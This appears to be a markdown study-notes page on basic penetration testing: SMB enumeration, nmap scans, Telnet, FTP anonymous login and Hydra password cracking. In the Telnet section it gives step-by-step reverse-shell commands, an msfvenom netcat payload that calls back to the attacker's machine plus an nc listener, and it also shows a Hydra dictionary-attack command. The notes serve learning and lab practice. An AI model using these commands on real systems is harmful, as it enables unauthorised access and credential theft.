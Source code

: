 ## SMB
- SMB, Server Message Block Protocol, is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network.
- Servers make file systems and other resources (printers, named pipes, APIs) available to clients on the network.
- Once clients have established a connection, clients can then send commands (SMBs) to the server that allow them to access shares, open files, read and write files, and generally do all the sort of things that you want to do with a file system. However, in the case of SMB, these things are done over the network.
- Clients connect to servers using TCP/IP (actually NetBIOS over TCP/IP as specified in RFC1001 and RFC1002), NetBEUI or IPX/SPX.
- SMB runs on ports 139/tcp netbios-ssn and 445/tcp microsoft-ds
  
### Enumeration
- It is the process of gathering information on a target in order to find potential attack vectors and aid in exploitation.
- It can be used to gather usernames, passwords, network information, hostnames, application data, services, or any other information that may be valuable to an attacker.
- `enum4linux [options] ip` can be used to enumerate SMB shares on both Windows and Linux systems.
- After getting to know the share names on a server, We can remotely access the SMB share using the syntax: `smbclient //[IP]/[SHARE]` Followed by the tags: -U [name] : to specify the user -p [port] : to specify the port

### NMAP
- To look for open ports in the most common 1000 ports: `nmap ip`
- for all ports: `nmap -p- ip`, for range of ports `nmap -p x-y ip`
- `-sV`: Enables service version detection. It attempts to determine the version of the running services on the target.
- `-A`: Aggressive scan. It includes additional features like OS detection, script scanning, and traceroute.

## Telnet
- Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.
- You can connect to a telnet server with the following syntax: `telnet [ip] [port]`
- Telnet has been replaced by SSH in most implementations in some applications due to the vulnerabilities discovered and that it sends messages in clear text.
> A "shell" is a command-line interface that allows users to interact with an operating system, execute commands, and manage files and processes. A "reverse shell" is a type of shell in which the target machine initiates a connection back to the attacker's machine, allowing the attacker to gain remote access and control over the target system. This is achieved by running a malicious payload on the target system, which establishes a network connection to a specified IP address and port controlled by the attacker. Once the connection is established, the attacker can execute commands and perform various actions on the compromised system as if they had physical access to it.
- After we get to know telnet port and that is open, we can try to execute commands on the target machine through a reverse shell:
  1. First we need to test if the local-target machines are able to reach eachother by starting a tcpdump listener on my local machine `sudo tcpdump ip proto \\icmp -i tun0` and pinging my machine from the telnet session `.RUN ping <my_machine_IP>`.
  2. Then we can generate a reverse shell payload using ***msfvenom***.This will generate and encode a netcat reverse shell for us. Here's the syntax: `msfvenom -p cmd/unix/reverse_netcat lhost=<local tun0 ip (our machine IP)> lport=<<listening port>> R`.
  3. In another terminal, we should start a netcat listener on our machine: `nc -lvp <listening port>`.
  4. Then we copy paste the payload generated by ***msfvenom*** to execute through the telnet session.
  5. By then, we can execute commands from our machine through netcat.

## FTP
- File Transfer Protocol (FTP) is a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this.
- FTP session operates using two channels: [1] a command (sometimes called the control) channel [2] a data channel.
- The FTP server may support either Active or Passive connections, or both.
  - In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it. 
  - In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it. 
- Once we know that FTP port is open, we can try connecting by `ftp <IP>`. sometimes we can login anonymously to ftp server, We can do this using by typing entering "anonymous" as username, and no password when prompted.

#### Hydra
Hydra is a very fast online password cracking tool, which can perform rapid dictionary attacks against more than 50 Protocols, including Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB, several databases and much more. Command syntax is as following: `hydra -t <Number of parallel connections per target> -l <username> -P <wordlist.txt file path> -vV <Target_IP> <service like ftp, smb, etc>`.

